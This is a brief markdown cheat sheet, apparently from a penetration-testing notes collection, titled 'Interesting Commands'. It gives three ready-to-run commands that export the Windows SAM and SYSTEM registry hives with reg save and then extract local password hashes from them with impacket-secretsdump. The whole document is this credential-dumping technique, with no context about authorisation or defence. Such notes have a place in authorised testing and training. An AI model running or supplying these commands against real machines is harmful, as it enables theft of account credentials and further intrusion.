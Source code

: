 # Interesting Commands

Save SAM file:

```powershell
reg save HKLM\sam ./sam.save
```

Save SYSTEM file:

```powershell
reg save HKLM\system ./system.save
```

Use impacket to get password hashes:

```bash
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

